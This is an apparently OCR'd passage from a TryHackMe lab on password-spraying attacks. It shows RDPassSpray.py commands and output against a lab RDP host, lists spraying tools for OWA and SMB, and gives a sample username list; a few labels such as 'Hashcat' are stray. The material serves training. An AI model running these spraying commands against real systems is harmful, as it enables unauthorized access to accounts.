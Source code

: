```
user@THM:~# python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
[13-02-2021 16:47] - Total number of users to test: 1
[13-02-2021 16:47] - Total number of password to test: 1
[13-02-2021 16:47] - Total number of attempts: 1
[13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
[13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!
```

The above output shows that we successfully found valid credentials victim:Spring2021!. Note that we can specify a domain name using the -d option if we are in an Active Directory environment.

```

Hashcat

           
user@THM:~# python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt

        


```

There are various tools that perform a spraying password attack against different services, such as:
Outlook web access (OWA) portal

Tools:

    SprayingToolkit (atomizer.py) https://github.com/byt3bl33d3r/SprayingToolkit
    MailSniper
    https://github.com/dafthack/MailSniper


SMB

    Tool: Metasploit (auxiliary/scanner/smb/smb_login)




Use the following username list:


```
Password spraying attack!

           
user@THM:~# cat usernames-list.txt 
admin
phillips
burgess
pittman
guess

        
```
